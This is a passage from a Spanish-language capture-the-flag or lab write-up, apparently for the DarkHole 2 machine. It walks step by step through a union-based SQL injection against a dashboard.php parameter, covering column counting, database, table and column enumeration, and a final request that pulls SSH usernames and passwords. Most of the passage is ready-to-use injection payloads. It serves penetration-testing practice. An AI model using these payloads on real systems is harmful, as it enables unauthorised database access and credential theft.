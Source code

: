 Solicitud modificada:
```
GET /dashboard.php?id=2'+order+by+6--+- HTTP/1.1
```

Se identificaron 6 columnas activas mediante pruebas incrementales hasta error 500.

**Paso 3 - Identificación de campos inyectables:**

Solicitud modificada:
```
GET /dashboard.php?id=2'+union+select+1,2,3,4,5,6--+- HTTP/1.1
```

![[darkhole_2.13.png]]

Los campos 2, 3, 5 y 6 son inyectables y se muestran en la respuesta.

**Paso 4 - Enumeración de bases de datos:**

Solicitud modificada:
```
GET /dashboard.php?id=2'+union+select+1,2,group_concat(schema_name),4,5,6+from+information_schema.schemata--+- HTTP/1.1
```

![[darkhole_2.14.png]]

Bases de datos identificadas: mysql, information_schema, performance_schema, sys, darkhole_2 (objetivo).

**Paso 5 - Enumeración de tablas en darkhole_2:**

Solicitud modificada:
```
GET /dashboard.php?id=2'+union+select+1,2,group_concat(table_name),4,5,6+from+information_schema.tables+where+table_schema%3d'darkhole_2'--+- HTTP/1.1
```
![[darkhole_2.15.png]]

Tablas identificadas: ssh, users.

**Paso 6 - Enumeración de columnas en tabla ssh:**

Solicitud modificada:
```
GET /dashboard.php?id=2'+union+select+1,2,group_concat(column_name),4,5,6+from+information_schema.columns+where+table_schema%3d'darkhole_2'+and+table_name%3d'ssh'--+- HTTP/1.1
```
![[darkhole_2.16.png]]
	Columnas en tabla ssh: id, user, pass.

**Paso 7 - Extracción de credenciales SSH:**

Solicitud modificada:
```
GET /dashboard.php?id=2'+union+select+1,2,group_concat(id,0x3a,user,0x3a,pass),4,5,6+from+darkhole_2.ssh--+- HTTP/1.1
```
![[darkhole_2.17.png]]
